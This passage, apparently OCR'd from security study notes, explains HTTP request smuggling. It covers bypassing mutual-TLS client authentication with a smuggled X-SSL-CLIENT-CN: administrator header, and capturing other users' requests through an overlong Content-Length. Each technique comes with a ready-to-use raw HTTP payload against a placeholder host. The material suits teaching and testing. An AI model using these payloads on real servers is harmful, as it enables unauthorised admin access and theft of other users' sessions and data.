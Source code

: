 ⚠️ **Note:**  
Set `Content-Length` in smuggled request slightly larger than actual body. Increase step by step until full rewritten request is captured.

---

## 3. Bypass Client Authentication

### 💡 Why It Works

- In mutual TLS, **client CN** (Common Name) is passed in hidden headers (e.g., `X-SSL-CLIENT-CN`).
    
- Normally, front-end overwrites them if supplied.
    
- Smuggled requests **bypass front-end rewriting**, sending **arbitrary headers** straight to back-end.
    

### 🧪 Payload Example

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

Result → Attacker gains admin-level access.

---

## 4. Capture Other Users’ Requests

### 💡 Why It Works

- Smuggled request with **overlong Content-Length** causes back-end to “borrow” bytes from next request.
    
- Victim’s request body gets appended into attacker’s parameter (e.g., `comment`).
    

### 🧪 Payload Example

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=attacker-session

csrf=abc123&postId=2&name=Attacker&comment=
```
